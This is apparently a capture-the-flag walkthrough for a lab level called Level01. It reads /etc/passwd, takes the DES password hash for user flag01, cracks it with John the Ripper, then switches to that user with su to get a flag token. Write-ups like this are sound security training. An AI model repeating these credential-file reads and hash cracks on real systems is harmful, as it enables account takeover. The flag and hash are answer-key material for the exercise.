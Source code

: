 # Level01

```sh
cat /etc/passwd

OR

getent passwd flag01
```

`flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash`

Using a tool like [John the Ripper password cracker](https://www.openwall.com/john/) we can crack the password in 10ms.

```sh
└─# echo '42hDRfypTqqnw' > pass.txt


└─# john pass.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 16 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
abcdefg          (?)
1g 0:00:00:00 DONE 2/3 (2024-02-17 13:59) 33.33g/s 3276Kp/s 3276Kc/s 3276KC/s 123456..Nelson8
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```sh
su flag01
Check flag. Here is your token: f2av5il02puano7naaf6adaaf
```
